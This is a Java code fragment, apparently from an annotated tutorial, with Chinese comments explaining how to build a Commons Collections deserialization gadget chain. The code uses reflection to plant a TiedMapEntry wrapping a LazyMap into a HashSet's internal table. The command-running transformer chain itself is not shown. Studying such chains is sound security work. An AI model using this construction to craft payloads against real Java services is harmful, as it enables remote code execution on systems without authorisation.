 ```java

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

    HashSet map = new HashSet(1);
    // add(E e)方法将(e, Object())添加到map内部的"map"字段中
    map.add("foo");
    Field f = null;
    try {
        // "map"是HashSet内部的类型为HashMap<E,Object>的字段
        // 因为被定义为transient，所以不参与序列化
        f = HashSet.class.getDeclaredField("map");
    } catch (NoSuchFieldException e) {
        f = HashSet.class.getDeclaredField("backingMap");
    }

    f.setAccessible(true);
    // 获取map对象的“map”字段值
    HashMap innimpl = (HashMap) f.get(map);

    Field f2 = null;
    try {
        // "table"是HashMap内部类型为Node<K,V>的数组
        // Node是HashMap的一个内部静态类，也是用来存储Key-Value值
        // 因为被定义为transient，所以不参与序列化
        f2 = HashMap.class.getDeclaredField("table");
    } catch (NoSuchFieldException e) {
        f2 = HashMap.class.getDeclaredField("elementData");
    }

    f2.setAccessible(true);
    // 获取innimpl对象的“table”字段值
    Object[] array = (Object[]) f2.get(innimpl);
	// 获取table中第一个不为空的节点
    Object node = array[0];
    if(node == null){
        node = array[1];
    }

    Field keyField = null;
    try{
        // 获取Node类型的"key"字段
        keyField = node.getClass().getDeclaredField("key");
    }catch(Exception e){
        keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
    }

    keyField.setAccessible(true);
    // 将该node节点的key值设置成TiedMapEntry的对象entry
    keyField.set(node, entry);
    
    return map;

}
```
